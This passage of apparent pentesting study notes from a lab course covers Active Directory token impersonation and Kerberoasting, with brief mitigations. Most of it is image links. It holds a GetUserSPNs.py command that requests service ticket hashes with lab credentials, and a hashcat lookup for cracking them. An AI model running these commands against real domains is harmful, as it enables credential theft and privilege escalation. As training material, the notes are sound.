 ![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/44.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/45.jpg)

### Token impersonation mitigation strategies

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/46.jpg)

- admin login to dc only


## Kerbersosting Overview

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/47.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/48.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/49.jpg)

### Kerbersoting walk through

```py
GetUserSPNs.py  marvel.local/dhoni:'1234@Valimai' -dc-ip 192.168.163.128 -request
```

- TGS hashes

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/50.jpg)

- Application server

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/51.jpg)

```py
hashcat --help | grep kerberos
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/52.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/53.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/54.jpg)

### Kerbersosting Mitigation

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/55.jpg)

- donot make service accounts domain administrators
---
---
## Group Policy Preferences(GPP)
